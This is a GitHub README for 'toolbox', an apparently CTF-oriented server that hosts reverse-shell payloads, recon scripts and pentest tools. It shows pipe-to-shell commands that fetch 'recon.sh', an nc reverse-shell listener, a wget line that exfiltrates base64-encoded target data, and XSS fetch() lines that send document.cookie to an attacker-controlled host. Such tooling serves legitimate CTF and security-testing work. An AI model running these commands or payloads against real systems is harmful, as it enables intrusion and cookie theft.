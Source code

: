 # toolbox
https://github.com/AlanFoster/toolbox

Currently toolbox provides functionality similar to `python3 -m http.server`, it will:

- Serve the files within the provided directory
- Serve common CTF tools, such as linpeas.sh and static binaries
- Serve payload/shell generation

## Installing

```
git clone https://github.com/AlanFoster/toolbox.git
```

Install the dependencies:
```
cd toolbox
git submodule update --init --recursive
pip3 install -r requirements.txt
```

Verify it works:

```
python3 toolbox.py --help
```

## Using Docker


Build the image:

```
docker build -t toolbox .
```

Example usage:

```
docker run -it --rm -p 8000:8000 toolbox /bin/sh -c "python toolbox.py serve -p 8000 ."
```

## Running

### Server

The server will:
- Serve the files within the provided directory
- Serve common CTF tools, such as linpeas.sh and static binaries
- Serve payload/shell generation

Usage:

```
python3 toolbox.py serve -p 8000 .
```

You can now visit the running server at `http://localhost:8000`

![Example of the running server](./images/server.png)

By default the server supports the following files:

- [Payloads](toolbox/server/templates/modules)
- [Common tools](toolbox/config.json)

### Workflows

#### Generating payloads

The home page will show all available payloads and can be accessed on the target machine.

For example using `shell.sh`:

- `/shells/shell.sh` - running on default host/port 127.0.0.1 4444
- `/shells/shell.sh/4444` - custom port
- `/shells/shell.sh/127.0.0.1/4444` - custom host and port

On the host machine you create a listener as normal:

```
rlwrap nc -lnvp 4444
```

#### Uploading files

If you wish to upload files to your host machine from a target you can generate temporary one time upload tokens. Note that this functionality requires that the server be started with a secure `--password` flag, otherwise it is disabled from the interface:

```
python3 toolbox.py serve -p 8000 --password 2cf24dba5fb0a30e26e83b2ac5b9e29e1b161e5c1fa7425e73043362938b9824 .
```

When the browser prompts for authentication only the password is required:

![Upload file name](./images/upload_file.png)
![Upload file token authentication](./images/upload_file_token_authentication.png)
![Upload file token](./images/upload_file_token.png)

After running the generated command on the target machine the file will be accessible on the host machine. Note that this token will be invalidated after use, and cannot be reused:

![Upload file command on target](./images/upload_file_target.png)

#### Remote target recon

The `recon.sh` script is great for use in the scenario of having initial remote code execution and you want to upgrade to a working shell. This script will log information about the remote target which you can then use to select the best reverse shell payload.

First run the `recon.sh` script on the target machine with either `curl` or `wget`:

```
curl http://localhost:8000/shells/recon.sh | sh
wget http://localhost:8000/shells/recon.sh -O- | sh
```

The server console will now log information about the remote target. In the below scenario we can see that the target is running as `root`, and has both `nc` and `python3` available - which is enough information to decide on a reverse shell payload:

![Example of the extracting data from the target](./images/recon.png)

Note that this remote logging functionality is implemented by making HTTP requests to the server with a base path of `/debug`. The `value` query string parameter will additionally be base64 decoded and highlighted in green. This means you can easily extract arbitrary information from the host machine, examples:

```bash
wget "http://localhost:8000/debug/"
wget "http://localhost:8000/debug/hello_world"
wget "http://localhost:8000/debug/tools/python/?value=$(python --version 2>&1 | base64 | tr -d \\n | sed -e 's/+/%2B/' -e 's#/#%2F#')" -O /dev/null
```

The `/debug` endpoint can be great for validating XSS payloads too. For instance within JavaScript you could use the following to track important parts of your XSS payload:

```javascript
fetch("http://server_ip:8000/debug/xss_code_started");
fetch(`http://server_ip:8000/debug/extracted_cookies?value=${encodeURI(btoa(document.cookie))}`);
```

## Contributing

### Updating requirements.txt

Updating `pipenv` currently requires a manual change to `requirements.txt`.
This file will not contain dev-dependencies and is meant for end-users.

```
pipenv lock -r > requirements.txt
```

### Adding additional tools

You can add additional third party projects by creating a new Git submodule:

```
git submodule add https://github.com/owner/project_name third_party/project_name
```

And updating the associated [configuration file](toolbox/config.json) to include the new tool.

### Running tests

You must first install the developer dependencies:

```shell
pipenv install --dev
```

Enter a Python environment:

```shell
pipenv shell
```

Running all tests:

```shell
pytest
```

To run only one set of tests add the focus marker:

```python
@pytest.mark.focus
def test_some_method():
    assert 1 == 1
```

Run with:

```shell
pytest -m focus
```

To enter an interactive debugging environment place either of the two lines into your code:

```python
breakpoint()
import pdb; pdb.set_trace()
```

Updating third party dependencies:

```
git submodule update --remote
```

## Planned

- Configure setup.py to install only the required source code + data files + licenses
- Automated github actions to ensure the latest third party libraries are downloaded
- Potentially add exploits with configurable payloads
- Shell listener support, instead of `rlwrap nc`
- Generate one time upload tokens from the command line directly, with/without the server running
- Add additional files:
  - Static pspy64
  - Static Docker client
